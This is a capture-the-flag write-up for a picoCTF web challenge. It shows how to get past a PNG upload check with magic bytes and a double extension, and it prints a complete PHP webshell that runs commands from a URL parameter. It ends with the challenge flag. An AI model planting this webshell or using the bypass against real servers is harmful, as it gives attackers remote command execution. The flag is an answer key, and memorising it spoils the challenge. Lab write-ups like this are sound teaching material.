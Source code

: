URL: `http://atlas.picoctf.net`

When requesting `http://atlas.picoctf.net/robots.txt`, you get
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

First is `/instructions.txt`, which contains
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Which just means that the app is checking for 
1. If the filename contains the `.png` extension
2. It's checking if the file contains the PNG magic bytes which is `89 50 4E 47 0D 0A 1A 0A` 
First, get the php webshell code and append 8 dots that will be replaced by the PNG magic bytes like this
```
........
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Then run `hexeditor -b payload.png.php` and replace all the `2E` bytes at the start with `89 50 4E 47 0D 0A 1A 0A`. After that, name the file `payload.png.php` to bypass the filename extension check and upload it. Access the file by going to `/uploads/test.png.php`. After that, you can view the flag by running `cat ../MFRDAZLDMUYDG.txt` in the webshell. 
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}`
